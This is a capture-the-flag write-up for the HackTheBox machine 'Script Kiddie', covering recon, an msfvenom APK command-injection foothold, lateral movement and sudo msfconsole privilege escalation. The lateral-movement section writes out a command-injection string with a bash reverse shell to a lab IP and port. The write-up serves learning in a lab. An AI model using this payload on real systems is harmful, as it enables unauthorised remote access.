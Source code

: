 ```yaml
---
layout: default
title: Script Kiddie
parent: HackTheBox
nav_order: 7
---
```

![](pictures/logo-sk.png)


## Table of contents
{: .no_toc .text-delta }



- Summary
- Recon
- Exploitation
- Lateral Movement
- Privilege Escalation
{:toc}

## [](#header-2)Summary:

- Exploit functionality of web app with a APK template command injection attack 
- Use user's shell script to access new user's account
- Escalate privileges with msfconsole




## [](#header-2)Recon:


Our initial nmap scan of running services and safe scripts shows both ssh and a web app running on port 5000.

![](pictures/nmap-sk.png)



Navigating to the website we can see what seems to be a script kiddies web app that utilizes common tools(nmap,msfvenom,searchsploit).



![](pictures/page-sk.png)





## [](#header-2)Exploitation:
After looking into the tools and using google I found that I could use this [exploit](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/) to get a reverse shell on the web server.


![](pictures/shell-sk.png)

From here I used 

```bash
bash -i
```

to get a interactive/better shell.




![](pictures/bash-sk.png)


## [](#header-2)Lateral Movement:

I am able to access the other user on the system "pwn" and find an interesting shell script "scanlosers.sh".



![](pictures/scan-sk.png)


I saw that this script took input from the log located /home/kid/logs/hackers and ran a shell command from that input.


I used the vi editor and input the following command into the log file (emphasis on the 3 spaces) in a way that I would get a reverse shell.


```bash
   ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.28/4242 0>&1'   #
```

![](pictures/rs-sk.png)

## [](#header-2)Privilege Escalation:


Priv esc was fairly easy as pwn had privileges to use msfconsole as sudo.

To check if the user can use any commands as sudo use the following command:


```bash
sudo -l
```

From here the path to root is simpley to use the path to metasploit found from the sudo -l command to access the root folder flag.






Also, I highly recommend if you are learning shell commands to head over to [explainshell.com](explainshell.com) as it was extremely helpful with this box and will be in the future (at least for me)





















